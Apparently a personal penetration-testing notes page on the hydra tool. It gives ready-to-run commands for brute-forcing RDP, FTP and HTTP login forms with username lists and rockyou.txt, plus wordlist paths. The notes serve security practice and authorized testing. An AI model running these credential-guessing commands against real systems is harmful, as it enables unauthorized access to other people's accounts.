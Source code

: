 ```yaml
---
tags:
  - tool
  - brute_forcing
---
```

# hydra

Brute force services

## Capabilities

```bash
# Brute force protocols
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'Password123!' rdp://$IP
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'Password123!' ftp://$IP

# Brute force HTTP post request
hydra -l 'username' -P /usr/share/wordlists/rockyou.txt http://example.com http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

Note: `L` and `P` are used for username and password respectively, lowercase either of them to specify a single value

### Wordlists

```bash
# Usernames
/usr/share/seclists/Usernames/Names/names.txt # 10177 lines

# Passwords (short)
/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt # 197 lines

# Passwords (long)
/usr/share/wordlists/rockyou.txt # 14344392 lines
```